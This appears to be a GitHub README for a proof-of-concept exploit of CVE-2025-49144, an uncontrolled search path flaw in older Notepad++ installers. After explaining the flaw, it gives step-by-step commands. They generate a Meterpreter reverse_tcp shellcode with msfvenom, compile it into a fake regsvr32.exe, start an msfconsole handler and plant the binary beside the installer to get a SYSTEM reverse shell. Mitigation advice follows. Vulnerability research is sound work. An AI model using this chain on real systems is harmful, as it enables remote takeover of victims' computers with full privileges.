

# CVE-2025-49144_PoC



📌 **CVE-2025-49144** is a high-severity local privilege escalation vulnerability found in the Notepad++ v8.8.1 and prior version installers. This vulnerability stems from uncontrolled executable search path behavior during installation, allowing a local attacker to gain SYSTEM-level privileges by placing malicious executables in the same directory as the installer.

---
⚙️ **How the CVE works – Step-by-Step**:

🧱 1. What went wrong in the installer?

The Notepad++ installer (before v8.8.2) calls regsvr32.exe to register some components — but it does this without giving the full path (like C:\Windows\System32\regsvr32.exe).

Instead, it just runs:
```bash
regsvr32.exe some_dll
```

📂 2. Windows search path behavior:
When an executable is launched without a full path, Windows uses a specific search order to find the file:

   1. The folder from which the application was launched (e.g., Downloads)

   2. The system folder (System32)

   3. The Windows folder

   4. Current working directory

   5. Paths in PATH environment variable

So, if a fake regsvr32.exe is placed in the same folder as the installer (e.g., Downloads), Windows will use it before the real one.

💣 3. Exploitation:

    - Attacker places a malicious regsvr32.exe in the same folder as the legitimate Notepad++ installer (e.g., the victim's Downloads folder).
    
    - Victim runs the installer (thinking it’s safe).
    
    - Installer calls regsvr32.exe, but ends up executing the malicious one from the same folder — with SYSTEM privileges (because installers typically request admin permissions).
    
    - The attacker's payload is now running as NT AUTHORITY\SYSTEM.


---

⚙️ **Steps to Reproduce**:
1. Get shell code:
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<your-ip> LPORT=4444 -f c > shellcode.txt
```
2. Download the file "regsvr32_loader.c" and edit it.
3. Paste entire shellcode from shellcode.txt in the mentioned comment.
4. Compile to regsvr32.exe:
```bash
x86_64-w64-mingw32-gcc regsvr32_loader.c -o regsvr32.exe -mwindows
```
5. Deploy a meterpreter listner:
``` bash
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.9
set LPORT 4444
run
```
6. Download a vulnerable version of Notepad++ i.e. prior to 8.8.1 as 8.8.1 is now auto-updated.For PoC I have used [Notepad++ v8.6.8](https://github.com/notepad-plus-plus/notepad-plus-plus/releases/download/v8.6.8/npp.8.6.8.Installer.x64.exe)
7. Move the file "regsvr32.exe" into the windows system in the same folder of the notepad++ installer, probably in the Downloads folder.
8. Complete the Installation of the Notepad++ installer.

Note: This is a PoC thus tested with Windows defender and real time protection disabled.

---

✅ **Mitigation**

Users and administrators should:

   - Upgrade to Notepad++ v8.8.2 or later
    
   - Restrict software installation to trusted admins
    
   - Use AppLocker, WDAC, or Software Restriction Policies (SRP) to:
     - Block execution from user-writeable folders (e.g., Downloads)
     - Prevent execution of untrusted binaries like regsvr32.exe from unauthorized paths
     - Enforce code signing for executables


Security teams should regularly audit install paths, monitor write permissions, and observe behavior during installer execution to reduce attack surface.

---

## 🏷️ License
MIT License — Free for educational, research, and defensive purposes only.

---

## 🤝 Contributing
Pull Requests welcome — improve detection, add features, or suggest fixes.

---

## ⚠️ Disclaimer
This PoC is **for educational and research purposes only**. Use it at your own risk. The author is not responsible for any misuse or damage caused."

